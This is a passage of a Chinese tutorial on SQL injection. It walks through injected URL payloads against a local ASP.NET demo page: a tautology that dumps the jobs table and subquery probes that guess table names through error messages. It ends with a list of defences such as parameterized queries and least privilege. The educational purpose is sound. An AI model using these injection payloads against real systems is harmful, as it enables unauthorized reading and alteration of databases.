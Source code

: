 现在我们要通过页面请求的方式，让数据库执行我们的SQL语句，我们要在URL中嵌入恶意表达式1=1（或2=2等等），如下URL所示：

    http://localhost:3452/ExcelUsingXSLT/Default.aspx?jobid=1'or'1'='1 
 
等效SQL语句如下：
```
SELECT job_id, job_desc, min_lvl, max_lvlFROM jobs WHERE job_id = '1' OR '1' = '1'
```
---

**jobs表查询结果**
![jobs表查询结果](http://upload-images.jianshu.io/upload_images/1348446-70bc2f22c37e1bbc.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

---

现在我们把job表中的所有数据都查询出来了，仅仅通过一个简单的恒真表达式就可以进行了一次简单的攻击。

虽然我们把job表的数据都查询出来了，但数据并没有太大的价值，所以接着我们要找出该表真正表名。
首先我们假设表名就是job，然后输入以下URL：

      http://localhost:3452/ExcelUsingXSLT/Default.aspx?jobid=1' or 1=(select count(*) from job)-- 
 
等效SQL语句如下：
```
SELECT job_id, job_desc, min_lvl, max_lvl FROM jobs WHERE job_id='1' or 1=(select count(*) from job) --'
```

---

![job表查询结果](http://upload-images.jianshu.io/upload_images/1348446-420ce2da0c5940b2.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

当我们输入了以上URL后，结果服务器返回我们错误信息，这证明了我们的假设是错误的。
通过错误信息，我们可以知道，首先它证明了该表名不是job，而且它还告诉我们后台数据库是SQL Server，不是MySQL或Oracle，这也涉及一个漏洞，即把错误信息直接返回给了用户。

---

接下假定表名是jobs，然后输入以下URL：

    http://localhost:3452/ExcelUsingXSLT/Default.aspx?jobid=1'or1=(select count(*) from jobs) -- 
 
等效SQL语句如下：
``` 
SELECT job_id, job_desc, min_lvl, max_lvl FROM jobs WHERE job_id='1' or 1=(select count(*) from jobs) --'
```
![jobs表查询结果](http://upload-images.jianshu.io/upload_images/1348446-b5c12393b6ff137e.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

现在证明了该表名是jobs，这可以迈向成功的一大步，因为我们知道了表名就可以对该表进行增删改操作了，而且我们还可以猜测出更多的表对它们作出修改。

---
防御
===
防止SQL Injection总的来说有以下几点：

1. 永远不要信任用户的输入，要对用户的输入进行校验，可以通过正则表达式，或限制长度，对单引号和双"-"进行转换等。
2. 永远不要使用动态拼装SQL，可以使用参数化的SQL或者直接使用存储过程进行数据查询存取。
3. 永远不要使用管理员权限的数据库连接，为每个应用使用单独的权限有限的数据库连接。
4. 不要把机密信息明文存放，请加密密码和敏感的信息。
5. 应用的异常信息应该给出尽可能少的提示，最好使用自定义的错误信息对原始错误信息进行包装，把异常信息存放在独立的表中。

---